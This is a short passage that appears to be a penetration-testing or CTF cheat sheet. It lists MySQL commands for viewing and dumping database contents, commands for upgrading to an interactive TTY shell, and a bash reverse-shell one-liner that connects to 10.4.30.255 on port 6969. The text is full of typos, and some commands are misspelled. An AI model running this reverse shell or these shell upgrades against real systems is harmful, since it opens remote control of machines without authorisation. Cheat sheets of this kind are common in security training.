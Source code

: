     **source DatabseFileName**


>      SHOW DATABSES;    


        **Use a database**

>       USE DATABASE <NAME>;

        **view Tables**

>       SHOW TABLES;

         **View coloumns and rows**

>        DESC <TABLE_NAME>;

         **View data stored**

>       SELECT * FROM <TABLE_NAME> 

         **Filter dumped data using wildcars**  
 
>  Iin MYSQL wildcards are specifeid by % instead of *. If we want to specify a format and want to dump data
>  only of that format then we can use command similiar to this

      ***SELECT * FROM Tablename WHERE coloumn_name LIKE "%{%}%"***


         **delete data**

>       DELETE FROM <TABLE_NAME> WHERE COLOUMN_NAME=DATA_STORED





# ######

# SHELLS

### TTY Stable shells

- bash -i

- /bin/bash -i

- /usr/bin/script -qc /bin/bash 1&>/dev/null

- python3 -c 'import pty;pty.spawn("/bin/bash")'

- python -c 'import pty;pty.spawn("/bin/bash")'


### Bash

#### Bash TCP

- bash -i >& /dev/tcp/10.4.30.255/6969 0>&1
